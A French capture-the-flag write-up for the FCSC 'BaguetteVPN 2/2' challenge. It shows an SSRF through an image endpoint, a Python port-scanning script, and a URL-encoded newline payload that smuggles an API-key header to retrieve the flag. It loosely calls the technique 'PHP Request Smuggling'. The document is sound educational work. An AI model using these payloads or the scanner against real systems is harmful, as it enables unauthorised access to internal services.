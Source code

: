 # BaguetteVPN 2/2
On se retrouve pour la partie la plus compliquée du challenge.<br/>
## Résolution
Pour commencer, brêve analyse du fichier ```./baguettevpn_server_app_v0.py```.<br/>
Cette fonction devrait nous print le flag:<br/>
```py
@app.route("/api/secret")
def admin():
    if request.remote_addr == '127.0.0.1':
        if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12':
            return jsonify({"secret": os.getenv('FLAG')})
        return Response('Interdit: mauvaise clé d\'API', status=403)
    return Response('Interdit: mauvaise adresse IP', status=403)
```
Cependant, on est confronté face à plusieurs conditions.<br/>
On doit trouver un moyen de requêter à travers le serveur, on s'attend donc à exploiter une faille de type SSRF.<br/>
On s'attaquera à la deuxième condition plus tard.<br/>
## SSRF
En fouillant le site, j'apperçois un point d'injection pottentiellement vulnérable à une SSRF.<br/>
Le paramètre ```/api/image?fn=``` permet de read des fichiers internes.<br/>
Je décide donc d'exploiter ce paramètre, en me munissant de ce cheatsheet plutôt complet: <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery">Link</a>.<br/>
En premier temps j'essaye  ```/api/image?fn=127.0.0.1```.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839960727799595079/unknown.png?width=1440&height=323"/><br/>
Malheureusement la requête ne passe pas, j'ajoute donc un ```@``` pour bypass les weak parsers.<br/>
Toujours rien, en regardant l'énoncé du challenge. Je vois qu'une énumération des ports inférieurs à 2000 est autorisée.<br/>
Je fais donc la même chose en gardant la même injection ```/api/image?fn=@127.0.0.1:[port]``` et en énumérant les ports.<br/>
Pour ce faire, j'ai fait un script afin d'automatiser tout ça.<br/>
```py
import requests as r

if __name__ == "__main__":
	with r.session() as s:
		for i in range(0, 2000 + 1):
			response = s.get("http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:%s" % (str(i)))
			if "Internal Server Error" not in response.text:
				print(response.url)
```
Après quelques minutes je vois que le port ```1337``` a été match.<br/>
Je me rends donc à ```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337```.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839958634514612284/unknown.png?width=1440&height=490"/><br/><br/>
Good, on est sur la bonne voie.<br/>
Je me rends à la path ```/api/secret``` et la requête passe bien localement.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839959391415697428/unknown.png?width=1440&height=462"/><br/><br/>
On passe donc à la deuxième condition.<br/>
## HTTP Request Smuggling
```py
if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12'
```
On doit trouver un moyen d'utiliser des headers dans l'URL.<br/>
A ce moment j'ai immédiatement su qu'il s'agissait d'une faille de type PHP Request Smuggling.<br/>
Il faut savoir que dans ce genre de situations, il y a 3 acteurs.<br/>
**•** L'attaquant<br/>
**•** Le proxy/firewall<br/>
**•** Le serveur web<br/>
Cette faille à beaucoup de variantes, mais principalement elle surgit de cette manière.<br/>
**•** L'attaquant se connecte au proxy, il envoie ABC<br/>
**•** Le proxy l'interprète comme AB, C, et le rédirige vers le serveur<br/>
**•** Le serveur web l'interprète comme A, BC, et répond avec r(A), r(BC)<br/>
**•** Proxy caches r(A) pour AB, r(BC) pour C<br/>
La première chose que je fais c'est ajouter ```HTTP/1.1``` à l'URL.<br/>
J'obtiens une erreur de parsing plutôt intéressante.<br/>
```PHP
Error response
Error code: 400

Message: Bad request syntax ('GET /api/secret HTTP/1.1 HTTP/1.1').

Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.
```
Je constate que le ```HTTP/1.1``` a bien été ajouté dans le corps de la requête.<br/>
Ma première idée consistait à retaper le corps de la requête directement dans l'URL en faisant attention aux sauts de ligne (line feed).<br/>
J'ai donc tenté de push le header X-API-KEY en ajoutant le ```%0a```.<br/>
```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337/api/secret+HTTP/1.1%0aX-API-KEY:b99cc420eb25205168e83190bae48a12```<br/>
Aucun résultat, je suppose qu'il y a un header ```Content-Length``` initialisé à 0 qui bloque la requête.<br/>
Je calcule la taille de la clé X-API-KEY.<br/>
```py
>>> print(len("b99cc420eb25205168e83190bae48a12"))
32
```
J'ajoute le header ```Content-Length``` avec la taille 32.<br/>
```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337/api/secret+HTTP/1.1%0aX-API-KEY:b99cc420eb25205168e83190bae48a12%0aContent-length:32```<br/>
```json
{"secret":"FCSC{6e86560231bae31b04948823e8d56fac5f1704aaeecf72b0c03bfe742d59fdfb}"}
```
Done.<br/>
